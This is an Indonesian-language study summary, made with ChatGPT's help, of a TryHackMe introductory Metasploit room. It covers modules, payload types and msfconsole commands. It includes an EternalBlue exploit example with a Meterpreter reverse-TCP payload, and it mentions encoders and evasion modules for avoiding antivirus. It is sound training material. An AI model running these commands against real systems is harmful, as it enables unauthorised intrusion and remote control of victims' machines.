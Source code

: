 ## 🛠️ **Metasploit: Introduction – Ringkasan Materi**

📝 **Deskripsi:**  
Rangkuman ini disusun dengan bantuan AI (ChatGPT) setelah saya menyelesaikan room ini di TryHackMe. Tujuannya adalah untuk merapikan dan menyederhanakan materi agar lebih mudah dipahami dan diingat.

---

### 📘 **1. Pengenalan**

Metasploit adalah framework eksploitasi open-source yang digunakan dalam pengujian penetrasi dan penelitian kerentanan. Terdapat dua versi utama:

* **Metasploit Pro**: Versi komersial dengan antarmuka grafis (GUI).
* **Metasploit Framework**: Versi open-source berbasis command-line.([Medium][1], [System Weakness][2])

Komponen utama Metasploit meliputi:

* **msfconsole**: Antarmuka utama berbasis command-line.
* **Modules**: Komponen seperti exploits, scanners, payloads, dll.
* **Tools**: Alat bantu seperti msfvenom, pattern\_create, dan pattern\_offset.([Medium][3])

---

### 🔍 **2. Komponen Utama Metasploit**

* **Exploit**: Kode yang memanfaatkan kerentanan pada sistem target.
* **Payload**: Kode yang dijalankan pada sistem target untuk mencapai tujuan penyerang.
* **Auxiliary**: Modul pendukung seperti scanners, crawlers, dan fuzzers.
* **Encoders**: Digunakan untuk mengaburkan exploit dan payload agar tidak terdeteksi oleh antivirus berbasis signature.
* **Evasion**: Modul yang mencoba menghindari deteksi antivirus dengan berbagai teknik.
* **NOPs**: Instruksi "No Operation" yang digunakan sebagai buffer dalam payload.
* **Payloads**: Dibagi menjadi:

  * **Singles**: Payload mandiri yang tidak memerlukan komponen tambahan.
  * **Stagers**: Menyiapkan saluran komunikasi antara Metasploit dan sistem target.
  * **Stages**: Komponen tambahan yang diunduh oleh stager untuk menjalankan payload lengkap.([Jasper Alblas][4], [Medium][1])

---

### 💻 **3. Menggunakan msfconsole**

* **Memulai msfconsole**:

  ```bash
  msfconsole
  ```
* **Perintah dasar**:

  * `search <keyword>`: Mencari modul berdasarkan kata kunci.
  * `use <module>`: Memilih modul untuk digunakan.
  * `show options`: Menampilkan opsi yang tersedia untuk modul yang dipilih.
  * `set <option> <value>`: Mengatur nilai untuk opsi tertentu.
  * `setg <option> <value>`: Mengatur nilai global untuk opsi tertentu.
  * `run` atau `exploit`: Menjalankan modul yang dipilih.
  * `back`: Kembali ke menu sebelumnya.
  * `help`: Menampilkan bantuan untuk perintah yang tersedia.
  * `history`: Menampilkan riwayat perintah yang telah digunakan.([Medium][1], [SudoZain][5], [System Weakness][6])

---

### 🧪 **4. Bekerja dengan Modul**

* **Contoh penggunaan modul exploit**:

  ```bash
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS <target_ip>
  set LHOST <your_ip>
  set PAYLOAD windows/x64/meterpreter/reverse_tcp
  run
  ```
* **Menampilkan payload yang kompatibel**:

  ```bash
  show payloads
  ```
* **Mengatur parameter**:

  * `set LPORT 4444`: Mengatur port lokal untuk koneksi reverse shell.
  * `setg RHOSTS 10.10.19.23`: Mengatur alamat IP target secara global.([SudoZain][5])

---

### 🧠 **5. Kesimpulan**

Metasploit adalah alat yang sangat berguna dalam pengujian penetrasi, memungkinkan pengguna untuk mengeksploitasi kerentanan, mengatur payload, dan melakukan berbagai tugas lainnya. Dengan memahami komponen dan perintah dasar Metasploit, pengguna dapat lebih efektif dalam mengidentifikasi dan mengeksploitasi kerentanan pada sistem target.
